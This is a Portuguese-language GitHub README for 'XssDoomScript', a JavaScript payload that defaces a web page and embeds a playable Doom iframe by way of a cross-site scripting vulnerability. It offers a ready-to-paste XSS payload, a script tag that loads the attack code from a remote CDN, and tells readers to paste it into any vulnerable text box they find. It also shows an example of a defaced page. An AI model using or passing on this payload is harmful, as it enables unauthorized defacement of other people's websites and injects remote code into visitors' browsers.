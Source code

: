 # XssDoomScript 
## Um código javascript simples, usado para alterar aspectos da página (Deface) por meio de vulnerabilidade XSS</h2>

<p>O código consiste em um javasctipt para alterar a página (Deface) e injetar um iframe jogável do jogo Doom.</br> 
Alguns atributos como cor de fundo, resolução do iframe e texto a serem exibido podem ser alterados no cabeçalho de constantes do script</p>

## Como testar o script ? 
<p>Caso já tenha achado alguma caixa de texto que possui a vulnerabilidade XSS explorável, apenas cole o seguinte código :  '<script src='https://cdn.jsdelivr.net/gh/Daniel-kenobi/XssDoomScript@main/script.js'></script>' . Após isso o script já irá alterar os aspectos da página</p>

<h5 align="center"> Exemplo de como o deface fica após explorado </h5>
<p align="center">
    <img src="https://i.ibb.co/QCt9SNz/Deface-Example.png" alt="Deface-Example" width="800" height="500">
</p>